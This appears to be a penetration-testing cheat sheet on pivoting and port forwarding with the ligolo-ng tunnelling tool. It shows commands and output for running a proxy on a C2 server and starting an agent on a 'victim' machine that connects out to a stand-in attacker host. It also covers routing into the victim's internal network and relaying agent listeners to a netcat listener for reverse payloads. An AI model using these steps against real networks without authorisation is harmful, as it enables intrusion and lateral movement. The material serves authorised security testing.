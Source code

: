 ```yaml
---
description: >-
  Lateral Movement consists of techniques that adversaries use to enter and
  control remote systems on a network.
---
```


# 🪜 Pivoting & Portforwarding

## ligolo-ng

{% hint style="info" %}
Official Link: [https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)
{% endhint %}

#### &#x20;**Running Ligolo-ng proxy server**

Start the _proxy_ server on your Command and Control (C2) server (default port 11601):

{% code overflow="wrap" %}
```bash
./proxy -h # Help options
./proxy -autocert # Automatically request LetsEncrypt certificates
```
{% endcode %}

#### Using Ligolo-ng

Start the _agent_ on your target (victim) computer (no privileges are required!):

```bash
./agent -connect attacker_c2_server.com:11601
```

> If you want to tunnel the connection over a SOCKS5 proxy, you can use the `--socks ip:port` option. You can specify SOCKS credentials using the `--socks-user` and `--socks-pass` arguments.

A session should appear on the _proxy_ server.

```bash
INFO[0102] Agent joined. name=nchatelain@nworkstation remote="XX.XX.XX.XX:38000"
```

Use the `session` command to select the _agent_.

```bash
ligolo-ng » session 
Specify a session : 1 - nchatelain@nworkstation - XX.XX.XX.XX:38000
```

\
Add a route on the _proxy/relay_ server to the _192.168.0.0/24_ _agent_ network.

_Linux_:

```bash
sudo ip route add 192.168.0.0/24 dev ligolo
```

_Windows_:

```powershell
netsh int ipv4 show interfaces

Idx     Mét         MTU          État                Nom
---  ----------  ----------  ------------  ---------------------------
 25           5       65535  connected     ligolo
   
route add 192.168.0.0 mask 255.255.255.0 0.0.0.0 if [THE INTERFACE IDX]
```

Start the tunnel on the proxy:

```bash
[Agent : nchatelain@nworkstation] » start_tunnel
[Agent : nchatelain@nworkstation] » INFO[0690] Starting tunnel to nchatelain@nworkstation   
```

#### Agent Binding/Listening

You can listen to ports on the _agent_ and _redirect_ connections to your control/proxy server.

In a ligolo session, use the `listener_add` command.

The following example will create a TCP listening socket on the agent (0.0.0.0:1234) and redirect connections to the 4321 port of the proxy server.

```
[Agent : nchatelain@nworkstation] » listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp
INFO[1208] Listener created on remote agent!            
```

On the `proxy`:

```
$ nc -lvp 4321
```

When a connection is made on the TCP port `1234` of the agent, `nc` will receive the connection.

This is very useful when using reverse tcp/udp payloads.

You can view currently running listeners using the `listener_list` command and stop them using the `listener_stop [ID]` command:

```
[Agent : nchatelain@nworkstation] » listener_list 
┌───────────────────────────────────────────────────────────────────────────────┐
│ Active listeners                                                              │
├───┬─────────────────────────┬────────────────────────┬────────────────────────┤
│ # │ AGENT                   │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
├───┼─────────────────────────┼────────────────────────┼────────────────────────┤
│ 0 │ nchatelain@nworkstation │ 0.0.0.0:1234           │ 127.0.0.1:4321         │
└───┴─────────────────────────┴────────────────────────┴────────────────────────┘

[Agent : nchatelain@nworkstation] » listener_stop 0
INFO[1505] Listener closed.                             
```
